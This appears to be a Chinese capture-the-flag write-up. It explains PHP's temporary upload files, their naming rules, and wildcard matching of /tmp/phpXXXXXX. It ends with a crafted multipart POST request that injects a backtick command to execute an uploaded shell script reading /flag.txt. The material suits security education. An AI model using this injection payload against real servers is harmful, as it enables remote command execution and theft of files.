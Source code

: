 ### ：临时文件夹目录

        php上传文件后会将文件存储在临时文件夹，然后用move_uploaded_file() 函数将上传的文件移动到新位置。临时文件夹可通过php.ini的upload_tmp_dir 指定，默认是/tmp目录。

### ：临时文件命名规则

        默认为 php+4或者6位随机数字和大小写字母，在windows下有tmp后缀，linux没有。比如windows下：phpXXXXXX.tmp  linux下：phpXXXXXX。

### ：通配符

        问号?代表一个任意字符，通配符/??p/p?p??????匹配/tmp/phpxxxxxx
## 上传文件

### Content-Type

​      Content-Type有两个值：

```
application/x-www-form-urlencoded(默认值) ：上传键值对
multipart/form-data：上传文件
```



### boundary

​        boundary为边界分隔符

        文件开始标记：-----------------------------10242300956292313528205888
    
        文件结束标记：-----------------------------10242300956292313528205888--
    
        其中10242300956292313528205888是浏览器随机生成的，只要足够复杂就可以。

### 文件内容

​        #! /bin/sh 指定命令解释器，#!是一个特殊的表示符，其后，跟着解释此脚本的shell路径。bash只是shell的一种，还有很多其它shell，如：sh,csh,ksh,tcsh。首先用命令ls /  来查看服务器根目录有哪些文件，发现有flag.txt，然后再用cat /flag.txt 即可。



请求头修改了三个地方

```php
POST /?cmd=?><?=`.+/??p/p?p??????`; HTTP/1.1
 
Content-Type: multipart/form-data; boundary=---------------------------10242300956292313528205888
 
-----------------------------10242300956292313528205888
Content-Disposition: form-data; name="fileUpload"; filename="1.txt"
Content-Type: text/plain
 
#! /bin/sh
 
cat /flag.txt
-----------------------------10242300956292313528205888--
```
